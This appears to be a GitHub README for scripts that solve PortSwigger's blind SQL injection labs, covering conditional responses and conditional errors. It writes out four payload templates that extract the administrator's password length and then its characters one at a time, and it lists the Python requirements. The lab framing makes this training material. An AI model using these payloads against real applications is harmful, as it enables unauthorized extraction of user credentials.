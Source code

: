 # SQL Injection PortSwigger Labs
The script gets the password length and execute a bruteforce attack to the web.
- Lab: Blind SQL injection with conditional responses
```sql
'and (select 'a' from users where username = 'administrator' and length(password) > {counter}) = 'a
```
```sql
'and (select substring(password, {position}, 1) from users where username = 'administrator') = '{character}
```
- Lab: Blind SQL injection with conditional errors
```sql
'||(SELECT CASE WHEN '1' = '1' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password) > {counter})||'
```
```sql
'||(SELECT CASE WHEN SUBSTR(password,{position},1)='{character}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

## Requirements
- pwntools
- request

All the requirements can be installed from requirements.txt file executing this on terminal:
```bash
pip3 install -r requirements.txt
```